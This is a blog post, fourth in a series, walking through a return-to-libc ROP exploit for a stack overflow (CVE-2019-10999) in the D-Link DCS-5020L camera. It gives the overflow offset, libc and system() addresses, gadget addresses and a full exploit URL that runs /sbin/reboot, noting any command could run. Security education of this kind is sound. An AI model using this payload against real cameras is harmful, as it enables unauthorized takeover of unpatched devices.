 ```yaml
---
layout: post
title:  "D-Link DCS-5020L Vuln Assessment Pt. 4"
date:   2020-04-09 16:44:11 -0400
comments: true
categories: exploits
---
```


# Exploitation

## The Finale
This is the part you've been waiting for right? We've downloaded a firmware, 
scoured through it for hours, found a vulnerability, emulated it, and now it's 
time. Time to write an exploit to gain control of the camera and make it do our 
bidding. Or at least run a command we tell it to. In part 3 we overwrote the 
return address by sending an arbitrarily long string by holding down the A key 
for a while. This approach, while easy, is not very scientific and probably won't 
result in reliable control over where we jump. Whip out your calculator, it's 
time to do some math.

## The Stack
Before we get into overwriting the return address it's useful to know where
the return address is. But first, let's go over how the stack is laid out when
the vulnerable function is called. The stack will start at some high address,
typically I've seen 0x7FFFFFFF, and grow down in memory. Reads and writes go up 
in memory. Now, with that knowledge let's look at the prologue in the vulnerable 
function for a practical example.

![prologue]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/prologue.png)

The first operation, `addiu` (add immediate unsigned), will move our stack 
pointer down in memory which is how it allocates space for the function's local 
variables. The `sw` (store word) operations below that are saving registers on 
the stack so they can be restored after this function is complete. The remaining 
space on the stack that is not being used by the registers is for local variables. 
The top of the function's disassembly in IDA the offsets of variables on the 
stack and based off the prologue we can rename the variables to be more easily tracked.

![Renaming variables on the stack]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/stack_converted.png)

And what the stack actually looks like.

![Stack setup]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/stack_setup.png)

## That Little Bit of Math
Now we are ready to figure out how many 'A's to write to our buffer to control 
execution. Looking back at the `strcpy` in IDA, we need to find out which stack 
value is used as the destination buffer.

![string copy viewed in IDA]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/strcpy_ida.png)

Register `$a0` is populated with `var_30` which is the last piece of the puzzle. 
We now know where the destination buffer is on the stack and we also know where 
the return address is stored. Simple math time. Our buffer, `var_30`, is at 
offset -30 and the return address, `$ra`, is at offset -8 so the simple math to 
calculate the distance between the two is 0x30 minus 0x8 which equals 0x28. If 
we write 0x28 bytes (40 decimal) into the buffer that will take us right up to 
the return address. The next four bytes we write will overwrite the return 
address. A [wget](https://en.wikipedia.org/wiki/Wget) command combined with IDA 
debugging will prove if this value is correct. I went back to user mode 
emulation for this so I didn't have to worry about setting the referer or providing a password.

```bash
wget http://127.0.0.1/wireless.htm?WEPEncryption=$(python3 -c "print('A' * 0x28, end=''); print('BBBB')")
```

![Return address filled with BBBB]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/bbbb_ra.png)

Notice how `$ra` is filled with 42424242 (BBBB) now instead of 4141414 (AAAA) 
that we saw in part 3? We have successfully overwritten the return address and 
can control execution. The next step is identifying a useful address to jump to 
instead of 0x42424242.

## Returning to LibC
The best option for executing a command on this camera is to perform a
[return to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack). 
This is one of a few options we have for exploiting the overflow, but this is 
the simplest option that will work. Basically we want to call system with a 
string we provide to perform a useful operation. Something like calling 
`/sbin/reboot` to restart the router. To accomplish this we need a few bits of information.

  * Address of libc.
  * Address of system.
  * Address of a gadget to place a string in $a0.
  * Offset on the stack to write our command.

Finding the address of libc is a pretty easy task. The kernel for this firmware 
is 2.6.21 and library load randomization wasn't a thing until 2.6.36 so the load 
address of the library will be consistent every time the server is run. Finding 
the address is as simple as a `cat` of the process mapping for this process. The 
library for libc in this firmware is libuClibc-0.9.28.so, notice how it appears 
in the mappings three times. We need to chose the executable one so we can 
execute code when we jump to it. To find that we are looking for the one with 
the `x` permission, or `r-xp`. Based on the image below our load address for libc is 0x2AB86000.

![Process Mapping]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/libc_address.png)

Finding the address of system requires loading the libc library in IDA and 
viewing the offset of the system function. Once found, adding that offset to 
the load address of libc will provide the address of system when the process is 
running. From the image below and the address we just found the loaded address of 
system will be

```
0x2AB86000 + 0x45080 = 0x2ABCB080
```

![System Call]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/system.png)

Next we need a gadget, known as a 
[ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) gadget, that 
will move a stack address into `$a0`, move an `$s` register to `$t9`, and call 
`$t9`. This will allow us to call system with a command we provide in the 
overflow. Sadly, there are no usable gadgets that move a stack pointer to `$a0` 
and call an `$s` register so this exploit required two gadgets. The two gadgets 
from libc I chose are:

        ----------------------------------------------------------------
        | Gadget Name | Gadget Offset | Gadget Summary                 |
        ----------------------------------------------------------------
        | ROP1        | 0x0004B0F8    | move    $t9, $s0               |
        |             |               | jalr    $t9 ; sub_4A890        |
        |             |               | addiu   $s2, $sp, 0x1E8+var_F8 |
        ----------------------------------------------------------------
        | ROP2        | 0x00018F40    | move    $t9, $s1               |
        |             |               | jalr    $t9 ; sub_18EB0        |
        |             |               | move    $a0, $s2               |
        ----------------------------------------------------------------
Because both gadgets came from libc the math to find their loaded address is the same.

* ROP1 - `0x2AB86000 + 0x4B0F8 = 0x2ABD10F8`
* ROP2 - `0x2AB86000 + 0x18F40 = 0x2AB9EF40`

ROP1 will perform the task of moving a stack value from an offset into an `$s` 
register. This operation happens in the third line of the gadget 
`addiu $s2, $sp, 0x1E8+var_F8`. The string will come from offset 
`0x1E8 - 0xF8 = 0xF0` and be stored in register `$s2`.

ROP2 will perform the task of moving a function pointer from an `$s` register 
to `$t9`, moving an `$s` register to `$a0`, and calling `$t9`. In our case we 
will put the address of `sytem` in `$s1`, so it will be moved to `$t9`. We 
placed our string in `$s2` in the last gadget and it will be moved to `$a0` to 
be the paramter when calling system.

Given all this information we need our stack to look like this:

![ROP Stack]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/rop_stack.png)

The addresses are sent in reverse because this is a little endian architecture 
firmware. The new URL looks like this:

http://IP:PORT/wireless.htm?WEPEncryption=AAAAAAAAAAAAAAAA@%EF%B9%2A%80%B0%BC%2AAAAAAAAAAAAAAAAA%F8%10%BD%2AAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB/sbin/reboot

If everything works out this should call `system` with the parameter 
`/sbin/reboot` which means we can run any command we want.

![ROP to system]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/system_rop.png)

## Conclusion
I'm in.

This bug is present if a few different D-Link cameras and has been patched in a 
few of them already. A few, sadly, remain unpatched at the time of writing. 
Might be a different story when you are reading this. If you want full source 
code for this exploit you can grab it on my github [here](https://github.com/fuzzywalls/CVE-2019-10999).
The CVE number is [CVE-2019-10999](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10999).
Thanks for reading, come back for more exploits later!
